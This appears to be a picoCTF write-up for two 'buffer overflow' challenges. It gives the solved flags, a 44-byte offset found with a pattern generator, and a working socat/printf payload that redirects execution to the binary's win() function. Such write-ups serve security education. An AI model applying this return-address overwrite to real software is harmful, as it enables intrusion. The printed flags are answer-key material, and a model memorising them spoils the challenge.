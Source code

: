# buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}`

## Approach

- Connect to the instance with `$ socat - TCP4:saturn.picoctf.net:57579` and type a long string of `a`s.

```
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

# buffer overflow 1

**Flag:** `picoCTF{addr3ss3s_ar3_3asy_b15b081e}`

## Approach

- Inputting short strings into the program always results into jumping to the same memory location.
- Input a long string of `a`s into the program. This results in a jump to `0x61616161`, which is the hex converted `utf-8` value of the character `a`.
- Using a non-repeating pattern generator (linked in references), we can find the exact offset created by the buffer, which is 44.

![buffer-value](images/Binary%20Exploitation/buffer%20overflow%201/buffer-val.png)

- To find the memory address at which the `win()` function is stored, we can use Rizin/Cutter's 'Disassembly' tab. The address is `0x080491f6`. Since this involves typing invalid `utf-8` characters, we will have to make use of `printf` to type the hex values directly.
- `nc` cannot easily pipe into `stdin`, so we can use `socat` instead.
- Now we can connect to the remote address:
```
$ socat - TCP4:saturn.picoctf.net:56983 < <(printf "123456789012345678901234567890123456789012ab\xf6\x91\x04\x08")
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}
```

## New concepts

1. `printf` entering hexadecimal values
2. `socat`'s working
3. Buffer overflowing to another function's values

## Incorrect methods tried

- Entering hex values directly into `stdin`
- Entering invalid `utf-8` characters into `stdin`
- Piping hex values using `echo`
- Piping the string into `nc`

## References

- https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html
- https://www.codetable.net/ (https://www.codetable.net/hex/8)
- https://stackoverflow.com/a/36312514 (`socat`)
- https://stackoverflow.com/a/33702982 (`printf`)

&nbsp;

&nbsp;

<hr style="border:2px solid gray; background-color: gray">
&nbsp;

&nbsp;

